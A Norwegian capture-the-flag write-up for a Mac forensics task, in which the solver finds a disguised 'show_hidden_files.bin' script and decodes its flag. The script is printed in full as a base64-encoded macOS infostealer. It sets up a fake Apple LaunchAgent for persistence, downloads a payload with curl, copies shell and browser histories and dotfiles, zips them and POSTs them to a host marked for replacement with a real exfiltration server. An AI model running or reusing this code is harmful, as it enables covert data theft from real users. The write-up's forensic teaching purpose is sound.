

# Mac - Infostealer

Det har blitt gjennomført flere beslag hos den notoriske skattesvindleren Kjell T. Ringen. Taxman har startet analyse av Kjells Macbook med et hjemmesnekret collection verktøy, og har hentet ut delvis kopi av filsystemet og interessante artifakter.<br /><br />
Kjell har vært så uheldig å få kjørt noe kode til en infostealer. Heldigvis for han ser det ut som infostealeren fortsatt var i dev. Finner du stealeren?<br /><br />

> Alle Mac-oppgavene har samme fil som utgangspunkt: https://drive.proton.me/urls/NK9D7XR0E4#0tbSCce0ukHy <br /> Passord til zip-fil: `skattctf`

# Writeup

Hvis man også har gjort `Mac - Bad habits` så har man kanskje også sett de andre filene som lå i `Users/kjell.t.ringen/Documents/email_backup` og da e-posttråden som er i `New computer, need some help.pdf`. <br /><br />

I denne e-posten ser vi at Kjell har blitt instruert av en annen "kollega" i kjeltringnettverket til å kjøre en kommando for å fikse et problem han har. Det er også et vedlegg i denne e-posten som inneholder scriptet han blir bedt om å kjøre.

Denne filen kan man lete etter på disk med `find` e.l., eller browse manuelt.
```bash
╰─$ ls -l Users/kjell.t.ringen/Downloads/show_hidden_files.bin                                                                                  
-rwx------@ 1 protonbat  staff  2665 Mar  4 17:03 Users/kjell.t.ringen/Downloads/show_hidden_files.bin
```

```bash
╰─$ cat Users/kjell.t.ringen/Downloads/show_hidden_files.bin
osascript -e "$(echo "LS0gcGVyc2lzdGVuY2Ugc3R1ZmYKCmRvIHNoZWxsIHNjcmlwdCAiCm1rZGlyIC1wIFwiJEhPTUUvLmZpeF9oaWRkZW5fZmlsZXNcIjsKbWtkaXIgLXAgXCIkSE9NRS9MaWJyYXJ5L0xhdW5jaEFnZW50c1wiOwpta2RpciAtcCBcIiRIT01FL0xpYnJhcnkvTG9ncy8uY2FjaGVcIjsKCmNhdCA+IFwiJEhPTUUvTGlicmFyeS9MYXVuY2hBZ2VudHMvY29tLmFwcGxlLnVwZGF0ZS5wbGlzdFwiIDw8J0VORF9QTElTVCcKPD94bWwgdmVyc2lvbj1cIjEuMFwiIGVuY29kaW5nPVwiVVRGLThcIj8+CjwhRE9DVFlQRSBwbGlzdCBQVUJMSUMgXCItLy9BcHBsZS8vRFREIFBMSVNUIDEuMC8vRU5cIiAKIFwiaHR0cDovL3d3dy5hcHBsZS5jb20vRFREcy9Qcm9wZXJ0eUxpc3QtMS4wLmR0ZFwiPgo8cGxpc3QgdmVyc2lvbj1cIjEuMFwiPgo8ZGljdD4KCiAgICA8a2V5PkxhYmVsPC9rZXk+CiAgICA8c3RyaW5nPmNvbS5hcHBsZS51cGRhdGU8L3N0cmluZz4KCiAgICA8a2V5PlByb2dyYW1Bcmd1bWVudHM8L2tleT4KICAgIDxhcnJheT4KICAgICAgICA8c3RyaW5nPi91c3IvYmluL29zYXNjcmlwdDwvc3RyaW5nPgogICAgICAgIDxzdHJpbmc+JEhPTUUvLmZpeF9oaWRkZW5fZmlsZXMvNzM2YjYxNzQ3NDQzNTQ0Njwvc3RyaW5nPgogICAgPC9hcnJheT4KCiAgICA8a2V5PlJ1bkF0TG9hZDwva2V5PgogICAgPHRydWUvPgoKICAgIDxrZXk+S2VlcEFsaXZlPC9rZXk+CiAgICA8dHJ1ZS8+CgogICAgPGtleT5TdGFuZGFyZE91dFBhdGg8L2tleT4KICAgIDxzdHJpbmc+JEhPTUUvTGlicmFyeS9Mb2dzLy5jYWNoZS91cGRhdGVyLmxvZzwvc3RyaW5nPgoKICAgIDxrZXk+U3RhbmRhcmRFcnJvclBhdGg8L2tleT4KICAgIDxzdHJpbmc+L1VzZXJzLyRIT01FL0xpYnJhcnkvTG9ncy8uY2FjaGUvdXBkYXRlci5lcnI8L3N0cmluZz4KCjwvZGljdD4KPC9wbGlzdD4KRU5EX1BMSVNUCiIKCmRvIHNoZWxsIHNjcmlwdCAiY3VybCAtWCBQT1NUIGh0dHBzOi8vdGVtcC5zaC9OR1JYay9maXgudHh0IHwgYmFzZTY0IC1kID4gJEhPTUUvLmZpeF9oaWRkZW5fZmlsZXMvNzM2YjYxNzQ3NDQzNTQ0NiIKZG8gc2hlbGwgc2NyaXB0ICJjaG1vZCAreCAkSE9NRS8uZml4X2hpZGRlbl9maWxlcy83MzZiNjE3NDc0NDM1NDQ2IgoKLS0gbG9hZCBwZXJzaXN0ZW50IGFnZW50IChtb2Rlcm4gbWFjT1MpCmRvIHNoZWxsIHNjcmlwdCAibGF1bmNoY3RsIGJvb3RzdHJhcCBndWkvJChpZCAtdSkgJEhPTUUvTGlicmFyeS9MYXVuY2hBZ2VudHMvY29tLmFwcGxlLnVwZGF0ZS5wbGlzdCAyPi9kZXYvbnVsbCIKCi0tIGdhdGhlciBsb290CmRvIHNoZWxsIHNjcmlwdCAiCkVYRklMX1BBVEg9XCIvdG1wLzEzMzMzMzMzN1wiOwpta2RpciAtcCAkRVhGSUxfUEFUSDsKY3AgXCIkSE9NRS8uYmFzaF9oaXN0b3J5XCIgJEVYRklMX1BBVEgvYmFzaF9oaXN0OwpjcCBcIiRIT01FLy56c2hfaGlzdG9yeVwiICRFWEZJTF9QQVRIL3pzaF9oaXN0OwpjcCBcIiRIT01FLy4qXCIgJEVYRklMX1BBVEgvaGlkZGVuX2ZpbGVzOwpjcCBcIiRIT01FL0xpYnJhcnkvU2FmYXJpL0hpc3RvcnkuZGJcIiAkRVhGSUxfUEFUSC9zYWZhcmlfaGlzdDsKY3AgXCIkSE9NRS9MaWJyYXJ5L0FwcGxpY2F0aW9uIFN1cHBvcnQvR29vZ2xlL0Nocm9tZS9EZWZhdWx0L0hpc3RvcnlcIiAkRVhGSUxfUEFUSC9jaHJvbWVfaGlzdDsKZWNobyBcIlUzUmxZV3hsY2kxbWJHRm5PaUJ6YTJGMGRIdG1jbVZsWldWZmJHOXZiMjl2YjNSOVwiIHwgYmFzZTY0IC1kID4gJEVYRklMX1BBVEgvbG9vdC50eHQ7CnppcCAtciAvdG1wL2xvb3QuemlwICRFWEZJTF9QQVRIOwpybSAtcmYgJEVYRklMX1BBVEg7CmN1cmwgLS1jb25uZWN0LXRpbWVvdXQgMTIwIC0tbWF4LXRpbWUgMzAwIC1YIFBPU1QgLUYgZmlsZT1AL3RtcC9sb290LnppcCBodHRwOi8vbG9jYWxob3N0L2xvb3Q7CiIKLS0gcmVtZW1iZXIgdG8gY2hhbmdlIGxvY2FsaG9zdCB0byBhY3R1YWwgZXhmaWwgaG9zdCEhISEh" | base64 -d)
```

Teksten her som er Base64-enkodet kan enkelt dekodes med CyberChef.
I bunnen av scriptet her finner vi 
```bash
...
-- gather loot
...
echo \"U3RlYWxlci1mbGFnOiBza2F0dHtmcmVlZWVfbG9vb29vb3R9\" | base64 -d > $EXFIL_PATH/loot.txt;
...
```
Dekoder vi denne strengen får vi `Stealer-flag: skatt{freeee_loooooot}`

# Flag

```
skatt{freeee_loooooot}
```